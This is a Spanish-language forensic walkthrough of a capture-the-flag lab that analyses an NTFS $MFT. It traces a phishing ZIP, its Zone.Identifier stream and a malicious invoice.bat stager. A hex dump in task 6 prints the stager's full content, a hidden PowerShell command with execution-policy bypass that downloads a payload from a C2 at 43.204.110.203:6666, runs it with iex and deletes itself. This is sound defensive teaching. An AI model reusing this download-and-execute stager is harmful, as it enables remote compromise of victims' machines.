


# **Sherlock - BFT** 

En este laboratorio estaremos explorando técnicas de análisis forense de un MFT. 

Pero primero, **¿Qué es un *MTF* ?**

Aquí tienes una explicación detallada del Master File Table (MFT) en NTFS, con ejemplos y su relevancia para análisis forense:

## 1. ¿Qué es el MFT?  
El **Master File Table (MFT)** es la tabla maestra de archivos utilizada por el sistema de ficheros NTFS (New Technology File System) de Microsoft. En NTFS, **todo** —archivos, carpetas, metadatos internos e incluso el propio MFT— se representa como una serie de **entradas** dentro de esta tabla. Cada entrada del MFT describe un objeto (file record) y sus atributos.

## 2. Ubicación y tamaño  
- **Ubicación física:**  
  - El MFT suele residir al comienzo de la partición NTFS, en un clúster reservado.  
  - Existen dos copias: la principal (`$MFT`) y un espejo en el clúster medio (`$MFTMirr`), para tolerancia a fallos.
- **Tamaño de registro:**  
  - Por defecto, cada entrada del MFT ocupa **1 024 bytes** (aunque puede ajustarse a 2 048 bytes según el tamaño de sector).

## 3. Estructura de una entrada del MFT  
Cada entrada (o *file record*) de 1 024 B contiene:

1. **Encabezado (Header)**  
   - Firma `"FILE"` (4 B): identifica el inicio de la entrada.  
   - Número de secuencia y número de la entrada (record number).  
   - Área de “fix‐up” para coherencia tras cortes de energía.

2. **Atributos**  
   NTFS describe TODO mediante atributos. Los más comunes son:
   - **$STANDARD_INFORMATION**: permisos (ACL), timestamps (creación, modificación, acceso).  
   - **$FILE_NAME**: nombre completo, timestamps (repetidos), identificador de padre.  
   - **$DATA**: contenido del archivo (en *resident* si cabe dentro de la entrada, o *no‐resident* enlazado a clústeres).  
   - **$ATTRIBUTE_LIST**: lista adicional de atributos si desborda la entrada.  
   - **$BITMAP, $LOGGED_UTILITY_STREAM, $INDEX_ROOT,** etc., para carpetas, hilos de transacción y metadatos internos.

   **Ejemplo simplificado de atributos en hex**  
   ```
   46 49 4C 45                  // "FILE"
   ...                           // encabezado
   30 00 00 00                  // Offset al primer atributo (48 dec)
   10 00 00 00                  // Tamaño de atributo $STANDARD_INFORMATION
   10 00 00 00  // type = 0x10  ($STANDARD_INFORMATION)
   30 00 00 00  // length
     ...                          // datos de timestamps y flags
   30 00 00 00  // type = 0x30  ($FILE_NAME)
   50 00 00 00  // length
     ...                          // nombre Unicode del archivo
   80 00 00 00  // type = EOC ($END_OF_ATTRIBUTES)
   ```


## 4. Tipos de atributos y su uso forense  

| Atributo                                  | Detalles                                                                                                                                                                                                                                                                                                                                                       | Caso de Uso                                                                                                                                                         |
|-------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **$STANDARD_INFORMATION**                 | - **Hora de creación**: La fecha y hora en que se creó el archivo o directorio.<br>- **Hora de modificación**: La fecha y hora de la última modificación.<br>- **Hora de acceso**: La fecha y hora del último acceso.<br>- **Hora de modificación de la entrada**: La fecha y hora en que la propia entrada MFT fue modificada.                                  | Vital para el análisis de líneas de tiempo y determinar la secuencia de acciones de usuario y uso de archivos.                                                       |
| **$FILE_NAME**                            | - **Nombre de archivo**: El nombre del archivo o directorio.<br>- **Directorio padre**: El número de registro MFT del directorio que lo contiene.<br>- **Timestamps adicionales**: Similar a `$STANDARD_INFORMATION`, pero específicos de este atributo y en ocasiones usados como respaldo.                                                                                     | Confirmar la integridad de rutas y nombres en el sistema, crucial para rastrear movimientos de usuarios y detectar cambios no autorizados.                          |
| **$DATA**                                 | - **Datos reales o puntero**: Contiene los datos directamente (archivos pequeños) o un puntero a los clústeres donde reside la información (archivos grandes).                                                                                                                                                                                                    | Análisis directo del contenido de archivos y recuperación de datos, especialmente importante en casos de robo de información o manipulación no autorizada.          |
| **$LOGGED_UTILITY_STREAM**                | - **Datos transaccionales**: Guarda información relacionada con NTFS transaccional (TxF), registrando cambios temporales de estado de archivos.                                                                                                                                                                                                                    | Permite rastrear los cambios realizados durante una transacción, útil tras fallos de sistema o apagados inesperados para determinar estados intermedios.            |
| **$BITMAP**                               | - **Asignación de clústeres**: Mapa de bits que indica qué clústeres están siendo usados por el archivo.                                                                                                                                                                                                                                                                 | Recuperación de archivos borrados o reconstrucción de datos a partir de clústeres no sobreescritos por nueva información.                                           |
| **$SECURITY_DESCRIPTOR**                  | - **ID de propietario**: Identifica al dueño del archivo.<br>- **Permisos**: Define quién puede leer, escribir o ejecutar.<br>- **Configuración de auditoría**: Especifica qué operaciones (acceso, cambios) registra el sistema.                                                                                                                                         | Determinar derechos de acceso y detectar posibles brechas de seguridad cuando se alteren permisos de forma no autorizada.                                           |
| **$VOLUME_INFORMATION**                   | - **Número de serie del volumen**: Identificador único del volumen.<br>- **Flags del sistema**: Indicadores como “volumen sucio” (no desmontado correctamente).                                                                                                                                                                                                     | En entornos multi-disco, vincular archivos y actividades a volúmenes específicos; esencial en recuperación de sistemas y análisis forense en múltiples unidades.   |
| **$INDEX_ROOT** <br> **$INDEX_ALLOCATION** | - **Entradas de índice**: Usadas en directorios para indexar rápidamente los archivos que contienen.<br>                                                                                                                                                                                                                                                         | Reconstrucción de estructuras de directorios y comprensión de la organización y acceso a datos, especialmente en investigaciones complejas con muchos archivos.   |


## 5. Borrado y espacio libre  
Cuando se elimina un archivo:
- La entrada del MFT **no se borra inmediatamente**: se marca como disponible (flag `0x0002 INUSE` desaparece).  
- El contenido en disco no se sobreescribe hasta que NTFS reutilice esos clústeres.  
- Esto permite, con herramientas forenses, extraer datos de registros MFT “huérfanos” y recuperar archivos borrados.

## 6. Timestamps
- La MFT incluye múltiples marcas de tiempo que registran diferentes tipos de acceso y modificación de archivos. Esto puede ayudar a construir una línea de tiempo de las actividades en un sistema, un aspecto esencial del análisis forense.

## 7. Reelevancia para el laboratorio: 
- **Reconstrucción de eventos**: orden cronológico de creación/modificación.  
- **Detección de malware o persistencia**: archivos con timestamps incoherentes (p.ej. creación tras último arranque).  
- **Recuperación de artefactos borrados**: incluso si el archivo fue “eliminado”, podemos extraer su MFT record y contenido parcial.


**Conclusión**:  
El MFT es el corazón del sistema de ficheros NTFS: una base de datos interna que describe todos los objetos y sus atributos. Entender cómo extraer, parsear y correlacionar las entradas del MFT es esencial para reconstruir la actividad en disco, recuperar archivos borrados y detectar actividades sospechosas. 


Para este laboratorio se nos proporciona un fichero MFT, para poder trabajar con este vamos a usar la herramienta MFTCmd y Timeline Explores, la primera para parsear la información a un formato en cvs, la segunda para explorar el cve de forma más cómada. Ambas herramientas son propiedad de Eric Zimmerma, se pueden encontras en su [sitio web](https://ericzimmerman.github.io/#!index.md). También se puede usar la herramienta MFTExplorer, que está pensada para explorar el MFT mediante una interfaz gráfica pero para términos práctimos usaremos MFTCmd. 

Usamos el siguiente comando para passear el MFT: 

```powershell
MFTECMD.exe -f "C:\Ruta\Al\$MFT" --csv "C:\DIrectorio\De\Salida" ---csvf resultados.csv
```

Terminado el proceso podemos pasar los datos al Timeline Explorer.

---

**task 1**
Simon Stark fue atacado el 13 de febrero. Descargó un archivo ZIP desde un enlace recibido en un correo electrónico. Cómo se llamaba el archivo ZIP que descargó desde el enlace?


Una vez parseados los datos e insertados en el Timeline Explorer podemos aplicar un filtro en la columna `Created0x10>Data Filters>Is same day`, podemos la fecha 13-2-2024 y aplicamos otro filtro en la columna `Extension`, aquí filtramos por *zip*

Vemos dos columnas con el campo `Created`, asi que expliquemos ambas para entender por qué usamos `Created0x10`

- `0x10` → **$STANDARD_INFORMATION**
- `0x30` → **$FILE_NAME**

### 1. `$STANDARD_INFORMATION` (`0x10`)
Este atributo es el **registro principal** del sistema de archivos. Contiene:
- Fecha de creación
- Fecha de modificación
- Fecha de último acceso
- Fecha de modificación del registro MFT

 Este es el timestamp que NTFS **modifica más fácilmente**: operaciones como copiar, mover, cambiar atributos, e incluso acceso desde scripts o malware **pueden alterarlo sin necesidad de privilegios especiales**.

### 2. `$FILE_NAME` (`0x30`)
Este atributo almacena:
- El nombre del archivo
- El identificador del directorio padre
- Una copia adicional de los mismos timestamps

 Estos timestamps **se actualizan con menos frecuencia**, porque el atributo `$FILE_NAME` no siempre se ve afectado por operaciones de usuario estándar.  
Son considerados **más confiables** en algunos contextos forenses, ya que muchos ataques o programas no los modifican explícitamente.

- **`Created0x10`** (de `$STANDARD_INFORMATION`) puede reflejar **la fecha en la que se copió** al sistema (porque NTFS ve eso como una "creación" nueva).
- **`Created0x30`** (de `$FILE_NAME`) puede seguir mostrando la **fecha original** del archivo, si fue mantenido desde su sistema de origen.

| Columna         | Valor                       | Interpretación                          |
|------------------|------------------------------|------------------------------------------|
| `Created0x10`    | 2025-04-21 12:43:01          | Se copió este archivo al sistema ese día |
| `Created0x30`    | 2024-12-10 08:15:25          | Es un archivo antiguo traído de otro lado|

## Implicaciones forenses

| Situación                                 | ¿Qué timestamp es más confiable?  |
|-------------------------------------------|-----------------------------------|
| Análisis de persistencia/malware reciente | `$STANDARD_INFORMATION`           |
| Verificar origen real de un archivo       | `$FILE_NAME` (más difícil de falsificar) |
| Reconstrucción de actividad en el sistema | Ambos, comparados entre sí         |




Vemos 3 ficheros, notemos que **invoices.zip** tiene como parent path a **Stage-20240213T093324Z-001.zip**, así que podemos decir que éste último fue el que se descargó. 

---
**task 2** 

Examine el contenido del identificador de zona del archivo ZIP descargado inicialmente. Este campo revela la URL de host desde la que se descargó el archivo, lo que constituye un valioso indicador de compromiso (IOC) en nuestra investigación/análisis. ¿Cuál es la URL de host completa desde la que se descargó este archivo ZIP?

Para responder a esto primero debemos conocer el concepto de los ***ADS***. 

Los **ADS** son una funcionalidad del sistema de archivos **NTFS** que permite que un archivo tenga **más de una "corriente" de datos**.  
- El **contenido principal** del archivo está en el "stream principal".
- Pero pueden existir **streams alternativos** que no se ven a simple vista y que no cambian el tamaño del archivo reportado en el explorador.

### Ejemplo de un archivo con ADS:

Supongamos que tienes un fichero llamado `archivo.zip`. Internamente, NTFS puede tener un stream alternativo llamado:

```
archivo.zip:Zone.Identifier
```

Este *stream alternativo* no aparece con `dir` o en el Explorador de Archivos, pero contiene metadatos relacionados con la descarga del archivo.

## ¿Qué contiene `Zone.Identifier`?

Cuando se descarga un archivo desde Internet (por ejemplo, usando Chrome o Edge), Windows crea automáticamente este stream alternativo que incluye datos como:

```ini
[ZoneTransfer]
ZoneId=3
ReferrerUrl=https://ejemplo.com/origen
HostUrl=https://ejemplo.com/archivo.zip
```

- **ZoneId=3** → indica que el archivo proviene de Internet.
- **HostUrl** → la URL exacta de donde se descargó el archivo (¡esto es un **IOC** muy valioso!).
- **ReferrerUrl** → la página desde donde fue referenciado.

Para visualizar podemos usar herramientas como:

- **`more < archivo.zip:Zone.Identifier`**
- **`notepad archivo.zip:Zone.Identifier`**
- En PowerShell:
  ```powershell
  Get-Content .\archivo.zip -Stream Zone.Identifier
  ```

Sabiendo esto ya podemos quitar el filtro que pusimos la columna de Extension, ahora filtramos por nombre de fichero, "stage" que ya sabemos que fue el que se descargó mediante el correo de phishin


Y nos fijamos en el valor del *.Zone.Identifier*: 


---
**task 3**

¿Cuál es la ruta completa y el nombre del archivo malicioso que ejecutaba código malicioso y se conectaba a un servidor C2?

Bien, ya conocemos el nombre del fichero descargado que inició el ataque, apliquemos un filtro en la columna `Path` por el nombre de este fichero y podemos ver lo siguiente: 



El primero que llama nuestra atención es el fichero `.bat`, que es una extensión para ficheros que contienen comando que se ejecutan de forma secuencial en sistemas windows, usado principalmente para automatizar tareas. 

---
**task 4** 

Analice la marca de tiempo $Created0x30 del archivo previamente identificado. ¿Cuándo se creó este archivo en el disco?

Solo hay que obtener el timestamp del $FILE_NAME del evento anterior. 

Created0x30
2024-02-13 16:38:39

---
**task 5**

Encontrar el offset hexadecimal de un registro MFT es beneficioso en muchos escenarios de investigación. Encuentre el offset hexadecimal del archivo stager de la Pregunta 3.

En NTFS, cada registro del MFT tiene un tamaño fijo (por defecto) de **1 024 bytes**. Por eso, para saber en qué posición del archivo `$MFT` comienza la entrada número N, basta con:

1. **Multiplicar** el **número de entrada** por el **tamaño del registro**  
   ```  
   byte_offset = EntryNumber × RecordSize  
               = 23436 × 1024  
               = 23 998 464 bytes  
   ```  
2. **Convertir** ese desplazamiento (offset) a **hexadecimal**, porque:  
   - Los editores hexadecimales y la mayoría de las herramientas forenses muestran las posiciones en base 16.  
   - El formato “0x…” es estándar para documentar offsets en informes y scripts.  

En el ejemplo concreto:  
```  
23 998 464 (decimal) = 0x16E3000 (hexadecimal)  
```  

De este modo, sabrremos que la entrada #23436 del MFT comienza en el **offset 0x16E3000** dentro del archivo `$MFT`. 

**Básicamente el registro que tiene como entrada 23436 empieza en el byte número 23 998 464 (en decimal)**

Para obtener esto podemos hacerlo de varias formas 

Con bash y printf: 
```bash 
# Multiplicar y guardar el resultado en una variable
byte_offset=$(( 23436 * 1024 ))

# Convertir a hexadecimal con printf
printf "Offset en hexadecimal: 0x%X\n" "$byte_offset"
```

Con bc: 

```bash 
└─$ echo "obase=16; 23436 * 1024" | bc | sed 's/^/0x/'
``` 

O la màs sencilla, con python: 
```bash 
python3 -c 'print(hex(23436 * 1024))'
``` 

---
**task 6**

Cada registro MFT tiene un tamaño de 1024 bytes. Si un archivo en disco tiene un tamaño inferior a 1024 bytes, pueden almacenarse directamente en el propio archivo MFT. Estos se llaman archivos residentes MFT. Durante la Investigación del Sistema de Archivos de Windows, es crucial buscar cualquier archivo malicioso/sospechoso que pueda estar residente en MFT. De esta manera podemos encontrar el contenido de los archivos maliciosos / secuencias de comandos. Busque el contenido del stager malicioso identificado en la Pregunta 3 y responda con la IP y el puerto del C2.

### ¿Qué significa que un archivo sea "resident" en el MFT?

En el sistema de archivos **NTFS (New Technology File System)** de Windows, cada archivo o directorio tiene una **entrada en el archivo especial `$MFT` (Master File Table)**. Esta entrada tiene un tamaño fijo de **1 024 bytes**.

### Atributos y almacenamiento

Cada entrada del `$MFT` incluye varios **atributos** (como `$STANDARD_INFORMATION`, `$FILE_NAME`, `$DATA`, etc.), y **uno de esos atributos es el contenido del archivo en sí** (`$DATA`).

### Archivos "residentes" (MFT Resident Files)

Cuando el **contenido del archivo es muy pequeño** (por ejemplo, menos de ~700–800 bytes), Windows puede almacenar ese contenido directamente dentro del registro del MFT, **en vez de guardarlo en clusters separados en el disco**.

Esto se llama:

> **Archivo residente en MFT**  
> (en inglés: **MFT Resident File**)

## Esto es importante en análisis forense porque:
1. **El contenido del archivo puede no aparecer como sector o archivo tradicional en disco.**
   - Herramientas que sólo miran datos por fuera del MFT podrían no detectarlo.

2. **Un atacante puede ocultar malware o scripts maliciosos directamente dentro del MFT**, si son pequeños.
   - Especialmente comandos en PowerShell, scripts en VBS, etc.

3. **Las herramientas forenses avanzadas pueden extraer estos datos directamente del MFT.**

En pocas palabras: **Cada registro en el archivo $MFT tiene 1 024 bytes disponibles para almacenar información estructurada en atributos. Estos atributos contienen tanto metadatos como potencialmente el contenido del archivo, si es lo suficientemente pequeño.**

Esto podemos verlo desde editores hexadecimales como **HxD**, pero si se prefiere se puede hacer desde la terminal: 

```bash 
─$ xxd -s $((23436*1024)) -l 1024 '$MFT'
016e3000: 4649 4c45 3000 0300 05ff 4b59 0000 0000  FILE0.....KY....
016e3010: 0900 0100 3800 0100 0003 0000 0004 0000  ....8...........
016e3020: 0000 0000 0000 0000 0400 0000 8c5b 0000  .............[..
016e3030: 0300 3061 0000 0000 1000 0000 6000 0000  ..0a........`...
016e3040: 0000 0000 0000 0000 4800 0000 1800 0000  ........H.......
016e3050: 009a 6c54 a15e da01 921d 6219 9b5e da01  ..lT.^....b..^..
016e3060: 921d 6219 9b5e da01 f929 101a 9b5e da01  ..b..^...)...^..
016e3070: 2000 0000 0000 0000 0000 0000 0000 0000   ...............
016e3080: 0000 0000 a805 0000 0000 0000 0000 0000  ................
016e3090: 9829 6e2d 0000 0000 3000 0000 7000 0000  .)n-....0...p...
016e30a0: 0000 0000 0000 0200 5800 0000 1800 0100  ........X.......
016e30b0: 015a 0100 0000 0200 0e5b 5d19 9b5e da01  .Z.......[]..^..
016e30c0: 0e5b 5d19 9b5e da01 0e5b 5d19 9b5e da01  .[]..^...[]..^..
016e30d0: 0e5b 5d19 9b5e da01 0000 0000 0000 0000  .[]..^..........
016e30e0: 0000 0000 0000 0000 2000 0000 0000 0000  ........ .......
016e30f0: 0b03 6900 6e00 7600 6f00 6900 6300 6500  ..i.n.v.o.i.c.e.
016e3100: 2e00 6200 6100 7400 8000 0000 3801 0000  ..b.a.t.....8...
016e3110: 0000 1800 0000 0100 1e01 0000 1800 0000  ................
016e3120: 4065 6368 6f20 6f66 660a 7374 6172 7420  @echo off.start 
016e3130: 2f62 2070 6f77 6572 7368 656c 6c2e 6578  /b powershell.ex
016e3140: 6520 2d6e 6f6c 202d 7720 3120 2d6e 6f70  e -nol -w 1 -nop
016e3150: 202d 6570 2062 7970 6173 7320 2228 4e65   -ep bypass "(Ne
016e3160: 772d 4f62 6a65 6374 204e 6574 2e57 6562  w-Object Net.Web
016e3170: 436c 6965 6e74 292e 5072 6f78 792e 4372  Client).Proxy.Cr
016e3180: 6564 656e 7469 616c 733d 5b4e 6574 2e43  edentials=[Net.C
016e3190: 7265 6465 6e74 6961 6c43 6163 6865 5d3a  redentialCache]:
016e31a0: 3a44 6566 6175 6c74 4e65 7477 6f72 6b43  :DefaultNetworkC
016e31b0: 7265 6465 6e74 6961 6c73 3b69 7772 2827  redentials;iwr('
016e31c0: 6874 7470 3a2f 2f34 332e 3230 342e 3131  http://43.204.11
016e31d0: 302e 3230 333a 3636 3636 2f64 6f77 6e6c  0.203:6666/downl
016e31e0: 6f61 642f 706f 7765 7273 6865 6c6c 2f4f  oad/powershell/O
016e31f0: 6d31 6864 4852 705a 6d56 7a64 4746 0300  m1hdHRpZmVzdGF..
016e3200: 5739 7549 4756 3064 773d 3d27 2920 2d55  W9uIGV0dw==') -U
016e3210: 7365 4261 7369 6350 6172 7369 6e67 7c69  seBasicParsing|i
016e3220: 6578 220a 2867 6f74 6f29 2032 3e6e 756c  ex".(goto) 2>nul
016e3230: 2026 2064 656c 2022 257e 6630 220a 0000   & del "%~f0"...
016e3240: 8000 0000 b800 0000 000f 1800 0000 0300  ................
016e3250: 7c00 0000 3800 0000 5a00 6f00 6e00 6500  |...8...Z.o.n.e.
016e3260: 2e00 4900 6400 6500 6e00 7400 6900 6600  ..I.d.e.n.t.i.f.
016e3270: 6900 6500 7200 0000 5b5a 6f6e 6554 7261  i.e.r...[ZoneTra
016e3280: 6e73 6665 725d 0d0a 5a6f 6e65 4964 3d33  nsfer]..ZoneId=3
016e3290: 0d0a 5265 6665 7272 6572 5572 6c3d 433a  ..ReferrerUrl=C:
016e32a0: 5c55 7365 7273 5c73 696d 6f6e 2e73 7461  \Users\simon.sta
016e32b0: 726b 5c44 6f77 6e6c 6f61 6473 5c53 7461  rk\Downloads\Sta
016e32c0: 6765 2d32 3032 3430 3231 3354 3039 3333  ge-20240213T0933
016e32d0: 3234 5a2d 3030 315c 5374 6167 655c 696e  24Z-001\Stage\in
016e32e0: 766f 6963 655c 696e 766f 6963 6573 2e7a  voice\invoices.z
016e32f0: 6970 0d0a 0000 0000 ffff ffff 8279 4711  ip...........yG.
016e3300: 0000 0000 0000 0000 0000 0000 0000 0000  ................
<SNIP>
```

Podemos ver que se conecta a la ip 43.204.110.203 por el puerto 6666

 
